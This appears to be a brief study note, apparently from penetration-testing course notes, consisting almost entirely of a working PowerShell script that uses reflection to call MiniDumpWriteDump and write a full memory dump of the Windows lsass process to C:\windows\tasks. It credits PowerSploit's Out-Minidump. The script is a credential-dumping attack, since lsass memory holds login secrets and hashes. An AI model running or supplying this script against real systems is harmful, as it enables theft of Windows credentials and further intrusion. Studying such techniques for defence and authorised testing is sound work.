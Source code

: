 ```c#
$WER = [PSObject].Assembly.GetType('System.Management.Automation.WindowsErrorReporting')
$WERNativeMethods = $WER.GetNestedType('NativeMethods', 'NonPublic')
$Flags = [Reflection.BindingFlags] 'NonPublic, Static'
$MiniDumpWriteDump = $WERNativeMethods.GetMethod('MiniDumpWriteDump', $Flags)
$MiniDumpWithFullMemory = [UInt32] 2

$Process = Get-Process -Name "lsass"
$DumpFilePath = "C:\windows\tasks"
$ProcessId = $Process.Id
$ProcessName = $Process.Name
$ProcessHandle = $Process.Handle
$ProcessFileName = "$($ProcessName)_$($ProcessId).dmp"

$ProcessDumpPath = Join-Path $DumpFilePath $ProcessFileName

$FileStream = New-Object IO.FileStream($ProcessDumpPath, [IO.FileMode]::Create)

$Result = $MiniDumpWriteDump.Invoke($null,@($ProcessHandle,$ProcessId,$FileStream.SafeFileHandle,$MiniDumpWithFullMemory,[IntPtr]::Zero,[IntPtr]::Zero,[IntPtr]::Zero))

$FileStream.Close()
```

Kudos: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1

More Info: [[Evasion Techniques and Breaching Defenses#12 4 2 1 Exercises]]